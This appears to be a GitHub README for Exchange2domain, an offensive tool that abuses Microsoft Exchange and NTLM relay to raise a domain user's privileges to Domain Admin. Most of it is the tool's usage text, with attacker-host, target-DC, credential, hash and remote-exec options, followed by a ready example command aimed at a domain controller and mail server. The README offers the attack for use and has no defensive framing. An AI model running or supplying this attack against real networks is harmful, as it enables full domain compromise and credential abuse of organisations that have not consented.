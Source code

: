 # Exchange2domain

All in One tools of [privexchange](https://github.com/dirkjanm/privexchange/).

Great writeup! [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip with `pip install impacket`.

## Usage
```
usage: Exchange2domain.py [-h] [-u USERNAME] [-d DOMAIN] [-p PASSWORD]
                          [--hashes HASHES] [--no-ssl]
                          [--exchange-port EXCHANGE_PORT] -ah ATTACKER_HOST
                          [-ap ATTACKER_PORT] -th TARGET_HOST
                          [-exec-method [{smbexec,wmiexec,mmcexec}]]
                          [--exchange-version EXCHANGE_VERSION]
                          [--attacker-page ATTACKER_PAGE] [--debug]
                          HOSTNAME

Exchange your privileges for Domain Admin privs by abusing Exchange. Use me
with ntlmrelayx

positional arguments:
  HOSTNAME              Hostname/ip of the Exchange server

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        username for authentication
  -d DOMAIN, --domain DOMAIN
                        domain the user is in (FQDN or NETBIOS domain name)
  -p PASSWORD, --password PASSWORD
                        Password for authentication, will prompt if not
                        specified and no NT:NTLM hashes are supplied
  --hashes HASHES       LM:NLTM hashes
  --no-ssl              Don't use HTTPS (connects on port 80)
  --exchange-port EXCHANGE_PORT
                        Alternative EWS port (default: 443 or 80)
  -ah ATTACKER_HOST, --attacker-host ATTACKER_HOST
                        Attacker hostname or IP
  -ap ATTACKER_PORT, --attacker-port ATTACKER_PORT
                        Port on which the relay attack runs (default: 80)
  -th TARGET_HOST, --target-host TARGET_HOST
                        Hostname or IP of the DC
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec
  --exchange-version EXCHANGE_VERSION
                        Exchange version of the target (default: Exchange2013,
                        choices:Exchange2010,Exchange2010_SP1,Exchange2010_SP2
                        ,Exchange2013,Exchange2013_SP1,Exchange2016)
  --attacker-page ATTACKER_PAGE
                        Page to request on attacker server (default:
                        /privexchange/)
  --debug               Enable debug output
```

example:
```
python Exchange2domain.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190124140647.jpg)
